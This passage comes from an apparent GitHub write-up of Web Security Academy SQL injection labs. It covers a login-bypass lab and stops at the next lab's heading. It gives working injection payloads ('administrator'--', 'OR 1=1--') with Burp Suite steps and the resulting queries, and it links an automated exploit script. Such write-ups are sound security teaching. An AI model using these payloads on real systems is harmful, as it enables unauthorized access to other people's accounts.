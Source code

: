 ## **<strong><font color="DarkCyan">Exploitation</font></strong>**
***
### **<strong><font color="MediumPurple">Manual</font></strong>**
1. Intercept the request with Burp Suite proxy,
2. Send the request to repeater,
3. Inject the username field with the following payload: ```administrator'--```
4. The resulting query sent by the App to the back-end database should look to something like this:
```sql
SELECT * FROM content WHERE username='administrator'--' AND password='p@$$w0rd'
```
which is
```sql
SELECT * FROM content WHERE username='administrator'
```
> **📍 Note:** You can also try the following payload ```randomusername' OR 1=1--``` which is also valid and bypasses the login functionality
```sql
SELECT * FROM content WHERE username='randomusername' OR 1=1--' AND password='p@$$w0rd'
```

<div><video controls src="https://github.com/YounesTasra-R4z3rSw0rd/YounesTasra.github.io_Img/blob/main/SQLi_Lab2.mp4?raw=true" muted="false" width="800" height="500"></video></div>

### **<strong><font color="MediumPurple">Automated</font></strong>**
* You can find the source code <a href="https://github.com/YounesTasra-R4z3rSw0rd/Web-Security-Academy/blob/main/SQL%20Injection/Lab%232/Lab-2.py" target="_blank"><er>here</er></a>

* <a href="https://github.com/YounesTasra-R4z3rSw0rd/Web-Security-Academy/blob/main/SQL%20Injection/Lab%232/requirements.txt" target="_blank"><er>Requirements</er></a>:
```console
$ pip3 install -r requirements.txt
```
* Help Menu:

```console
$ python3 Lab-2.py --help
usage: Lab-2.py [-h] -u URL [-n]

Usage Example: python3 Lab-2.py --url https://0a2100.web-security-academy.net/ --no-proxy

options:
  -h, --help         show this help message and exit
  -u URL, --url URL  Enter the Lab URL
  -n, --no-proxy     Do not use proxy                               
```
![Lab#2](https://user-images.githubusercontent.com/101610095/219528976-629965c4-3648-4969-846f-6b7376088356.gif)

# **<strong><font color="Brown">Lab-3</font></strong>**
***
## **<strong><font color="DarkCyan">About</font></strong>**
